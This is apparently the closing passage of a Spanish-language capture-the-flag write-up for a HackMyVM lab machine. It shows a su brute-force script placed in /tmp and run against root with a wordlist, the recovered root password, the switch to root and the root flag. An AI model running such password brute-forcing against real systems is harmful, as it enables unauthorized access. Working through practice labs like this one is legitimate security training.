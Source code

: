 Ahora vamos a descargarnos un script para realizar `fuerza bruta` hacia el usuario `root`.

URL = [Download Linux-Su-Force.sh](https://github.com/Maalfer/Sudo_BruteForce/blob/main/Linux-Su-Force.sh)

Una vez que lo hayamos copiado y pegado en la carpeta `/tmp` de la maquina victima, lo ejecutaremos de la siguiente forma.

```shell
bash Linux-Su-Force.sh root dic.txt
```

Info:

```
Contraseña encontrada para el usuario root: ToyStory3
```

Vemos que hemos encontrado la contraseña, por lo que vamos a escalar a `root`.

```shell
su root
```

Metemos como contraseña `ToyStory3` y veremos que estamos dentro.

Info:

```
root@comingsoon:~# whoami
root
```

Por lo que vamos a leer la `flag` de `root`.

> root.txt

```
HMV{root:comingsoon.hmv:2339dc81ca}
```
